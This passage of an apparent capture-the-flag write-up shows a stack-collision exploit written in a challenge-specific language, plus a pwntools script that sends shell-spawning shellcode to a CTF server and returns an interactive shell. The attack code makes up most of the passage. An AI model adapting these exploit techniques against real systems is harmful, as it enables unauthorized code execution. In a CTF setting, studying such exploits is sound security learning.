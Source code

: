 ```c
}

// stacks of pwn and victim thread collide, overwrite victim stack
def void pwn_do() {
    print("in pwn_do\n");

    // allocate small array to overwrite some values on the victim stack
    array<uint64, 100> a;
    // specific value to prevent crash
    a[6] = 18446744073709551615;
    // overwrite return address
    a[9] = sc_addr;

    print("pwn_do done\n");

    // unblock victim thread
    up(sem_victim);
    // pwn thread is done, block forever
    block();

    // use array so it's not optimized away
    i = 0;
    while (i < 100) {
        a[i] = i;
        i = i + 1;
    }
    print(a[0]);
}
```

And the exploit script interacting with the server:

```python
from pwn import *

context.arch = "amd64"

if args.REMOTE:
    # connect to remote server
    p = process("./client exp.simp -- nc threading.2020.ctfcompetition.com 1337", shell=True)
else:
    # compile and run exploit locally
    os.system("./simple_lang/compiler/compiler exp.simp exp.simp.cpp")
    os.system("./compile.sh exp.simp exp.simp.elf")
    p = process("./exp.simp.elf")

if args.GDB:
    gdb.attach(p, gdbscript="handle SIGUSR1 nostop noprint \n handle SIGUSR2 nostop noprint \n b *sbt_pwn_pivot")

# send shellcode to exploit
p.recvuntil("send code:")
sc = asm(shellcraft.sh())
p.send(sc.ljust(1024))

# parse shellcode address and send it back
p.recvuntil("ref<")
addr = p.recvuntil(">", drop=True)
addr = int(addr, 16) + 0x50
info("addr: 0x%x", addr)
p.send(p64(addr))

# exploit spawns a shell
p.interactive()
```